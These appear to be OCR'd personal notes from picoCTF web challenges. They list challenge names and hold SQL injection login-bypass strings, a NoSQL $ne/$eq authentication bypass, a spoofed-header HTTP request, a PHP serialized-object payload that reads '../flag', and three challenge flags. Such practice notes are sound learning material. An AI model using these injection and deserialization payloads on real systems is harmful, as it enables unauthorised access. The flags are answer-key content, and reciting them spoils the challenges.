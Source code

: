 inspect HTML.
includes.
Get aHead.

Cookies.
Scavenger Hunt.
Power Cookie.
Forbidden Paths.
Jauth.
caas.
Most Cookies-
Who are you .
login .
web gauntlet 2 .
super serial.
some assembly required 1.
roboto sans.

elements 
noted 
bithug


admin'--
admin'/*
ad'||'min'/*

a'be'1'='1



tar -xvf app.tar.gz ./app/


"email":"{\"$eq\":\"picoplayer355@picoctf.org\"}",
"password":"{\"$ne\":\"asd\"}"


inspect HTML.
includes.
Get aHead.
Cookies.
Scavenger Hunt.
Power Cookie.
Forbidden Paths.
Jauth.
caas.
Most Cookies-
Who are you .
login .
web gauntlet 2 .
super serial.
some assembly required 1.
roboto sans.

elements 
noted 
bithug

picoCTF{little_alchemy_was_the_0g_game_does_anyone_rememb3r_9889fd4a}

picoCTF{p00rth0s_parl1ment_0f_p3p3gas_386f0184}

picoCTF{good_job_at_gitting_good}


adm'||'in'  except select 
,"


GET / HTTP/1.1
Host: mercury.picoctf.net:34588
Cache-Control: max-age=0
Accept-Language: sv-SV,sv;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: PicoBrowser
Date: Wed, 21 Oct 2018 02:46:00 GMT
Referer: mercury.picoctf.net:34588
X-Forwarded-for: 103.103.84.0
DNT: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

<?php

class access_log{
	public $log_file = "../flag";
}
print(urlencode(base64_encode(serialize(new access_log()))))
?>
